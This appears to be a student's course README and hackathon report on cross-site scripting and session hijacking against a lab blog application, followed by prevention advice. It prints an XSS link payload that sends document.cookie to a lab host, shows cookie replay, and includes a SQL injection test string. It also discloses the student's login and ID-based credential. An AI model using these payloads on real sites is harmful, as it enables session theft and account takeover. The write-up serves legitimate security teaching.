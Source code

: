 # Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

![Mahitha's headshot](../images/mahi.jpeg)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo]()

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:
<a onclick=window.location='http://192.168.56.102/?cookie=+document.cookie>click here</a> 

![level 0](../images/h31.jpeg)

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

![level 0](../images/h32.jpeg)

![level 0](../images/h33.jpeg)

![level 0](../images/h31.jpeg)

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

![level 0](../images/h31.jpeg)

![level 0](../images/h34.jpeg)

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

![level 0](../images/h35.jpeg)

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

![bonus](../images/h36.jpeg)

![bonus](../images/h37.jpeg)

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

![bonus](../images/h3bonus1.jpeg)

![bonus](../images/h3bonus2.jpeg)

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
